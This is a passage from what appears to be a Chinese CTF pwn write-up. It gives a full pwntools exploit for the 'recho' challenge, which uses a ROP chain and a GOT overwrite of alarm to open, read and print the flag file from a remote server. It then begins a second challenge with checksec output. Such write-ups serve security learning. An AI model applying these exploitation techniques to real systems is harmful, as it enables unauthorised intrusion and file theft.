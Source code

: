 完整exp如下：

```python
from pwn import *
from LibcSearcher import LibcSearcher
context.log_level="DEBUG"
context.arch="amd64"

local=0
#gdb.attach(p)
if local:
	p=process('./recho')
	elf = ELF('./recho')
else:
	p=remote('220.249.52.133',43279)
	elf = ELF('./recho')
alarm_got=elf.got['alarm']
alarm_plt=elf.plt['alarm']
read_plt=elf.plt['read']
printf_plt=elf.plt['printf']
pop_rdi=0x4008a3
pop_rsi=0x4008a1
pop_rax=0x4006fc
add_rdi=0x40070d
pop_rdx=0x4006fe
main=0x0400791
flag=0x601058
bss=0x601070
#gdb.attach(p)
p.recvuntil('Welcome to Recho server!\n')
p.sendline(str(0x200))
#hack got
payload='a'*0x38+p64(pop_rdi)+p64(alarm_got)+p64(pop_rax)+p64(5)+p64(add_rdi)
#open flag r
payload+=p64(pop_rdi)+p64(flag)+p64(pop_rsi)+p64(0)+p64(0)+p64(pop_rax)+p64(2)+p64(alarm_plt)
#read(3,bss,100)
payload+=p64(pop_rdi)+p64(3)+p64(pop_rsi)+p64(bss)+p64(0)+p64(pop_rdx)+p64(100)+p64(read_plt)
#printf(flag)
payload+=p64(pop_rdi)+p64(bss)+p64(printf_plt)
payload=payload.ljust(0x200,'\x00')
p.sendline(payload)
p.shutdown('send')
p.interactive()
```

# <span id ="supermarket">supermarket</span>

## checksec

```shell
[*] '/home/giantbranch/Desktop/pwn/supermarket/supermarket'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```
